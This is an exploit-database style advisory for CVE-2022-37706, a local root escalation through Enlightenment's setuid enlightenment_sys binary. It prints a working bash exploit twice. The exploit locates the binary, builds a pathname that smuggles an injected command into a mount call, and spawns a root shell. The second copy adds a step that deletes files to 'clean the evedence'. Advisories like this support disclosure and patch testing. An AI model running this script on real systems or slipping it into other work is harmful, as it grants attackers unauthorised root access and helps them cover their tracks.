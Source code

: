 ```
#!/bin/bash

##
##
## https://www.exploit-db.com/exploits/51180

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
	echo "[-] Couldn't find the vulnerable SUID file..."
	echo "[*] Enlightenment should be installed on your system."
	exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Enjoy the root shell :)"
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```
##
##
##

## Exploit Title: Enlightenment v0.25.3 - Privilege escalation
## Author: nu11secur1ty
## Date: 12.26.2022
## Vendor: https://www.enlightenment.org/
## Software: https://www.enlightenment.org/download
## Reference: https://github.com/nu11secur1ty/CVE-mitre/tree/main/CVE-2022-37706
## CVE ID: CVE-2022-37706
## Description:
The Enlightenment Version: 0.25.3 is vulnerable to local privilege escalation.
Enlightenment_sys in Enlightenment before 0.25.3 allows local users to
gain privileges because it is setuid root,
and the system library function mishandles pathnames that begin with a
/dev/.. substring
If the attacker has access locally to some machine on which the
machine is installed Enlightenment
he can use this vulnerability to do very dangerous stuff.

## STATUS: CRITICAL Vulnerability

## Tested on:
```bash
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=22.10
DISTRIB_CODENAME=kinetic
DISTRIB_DESCRIPTION="Ubuntu 22.10"
PRETTY_NAME="Ubuntu 22.10"
NAME="Ubuntu"
VERSION_ID="22.10"
VERSION="22.10 (Kinetic Kudu)"
VERSION_CODENAME=kinetic
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=kinetic
LOGO=ubuntu-logo
```

[+] Exploit:

```bash
#!/usr/bin/bash
# Idea by MaherAzzouz
# Development by nu11secur1ty

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

# The actual problem
file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
	echo "[-] Couldn't find the vulnerable SUID file..."
	echo "[*] Enlightenment should be installed on your system."
	exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Welcome to the rabbit hole :)"

${file} /bin/mount -o
noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u),
"/dev/../tmp/;/tmp/exploit" /tmp///net

read -p "Press any key to clean the evedence..."
echo -e "Please wait... "

sleep 5
rm -rf /tmp/exploit
rm -rf /tmp/net
echo -e "Done; Everything is clear ;)"

```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-mitre/tree/main/CVE-2022-37706)
## Proof and Exploit:
[href](https://streamable.com/zflbgg)

## Time spent
`01:00:00`


-- 
System Administrator - Infrastructure Engineer
Penetration Testing Engineer
Exploit developer at https://packetstormsecurity.com/
https://cve.mitre.org/index.html and https://www.exploit-db.com/
home page: https://www.nu11secur1ty.com/
hiPEnIMR0v7QCo/+SEH9gBclAAYWGnPoBIQ75sCj60E=
                          nu11secur1ty <http://nu11secur1ty.com/>
            
